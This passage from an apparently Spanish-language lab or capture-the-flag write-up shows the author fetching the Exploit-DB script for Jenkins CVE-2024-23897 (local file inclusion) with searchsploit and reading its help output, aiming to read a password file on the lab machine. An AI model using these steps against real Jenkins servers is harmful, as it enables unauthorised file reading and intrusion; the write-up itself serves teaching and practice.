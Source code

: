 ```bash
[*] Closed 1 connections
```
Y ya con esto, podemos continuar.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="JenkinsExploit">Probando Exploit: Jenkins 2.441 - Local File Inclusion y Ganando Acceso a la Máquina</h2>

Juntando lo que tenemos, parece que la idea es utilizar un Exploit que nos permita ver el archivo que contiene la contraseña del **usuario hacker**, siendo un archivo que se encuentra en su escritorio y que se llama **perico**.

Regresando con el servidor Jenkins, existe un Exploit que permite aplicar **LFI**:
* <a href="https://www.exploit-db.com/exploits/51993" target="_blank">Jenkins 2.441 - Local File Inclusion</a>

El siguiente blog, explica cómo usaron este Exploit:
* <a href="https://www.cloudsek.com/blog/xposing-the-exploitation-how-cve-2024-23897-led-to-the-compromise-of-github-repos-via-jenkins-lfi-vulnerability" target="_blank">Exposing the Exploitation: How CVE-2024-23897 Led to the Compromise of Github Repos via Jenkins LFI Vulnerability</a>

Aunque no sea la misma versión para el que está ideado, vamos a probarlo.

Copiemos el Exploit en nuestro directorio de trabajo:
```bash
searchsploit -m java/webapps/51993.py
  Exploit: Jenkins 2.441 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/51993
     Path: /usr/share/exploitdb/exploits/java/webapps/51993.py
    Codes: CVE-2024-23897
 Verified: False
File Type: Python script, ASCII text executable
```
Parece que está hecho en **Python3**.

Vamos a ejecutarlo para ver cómo usarlo:
```bash
python3 51993.py -h
usage: 51993.py [-h] -u URL [-p PATH]

Local File Inclusion exploit for CVE-2024-23897

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     The url of the vulnerable Jenkins service. Ex: http://helloworld.com/
  -p PATH, --path PATH  The absolute path of the file to download
```
Bien, solamente tenemos que indicar la URL y especificar el path del archivo que queremos ver.
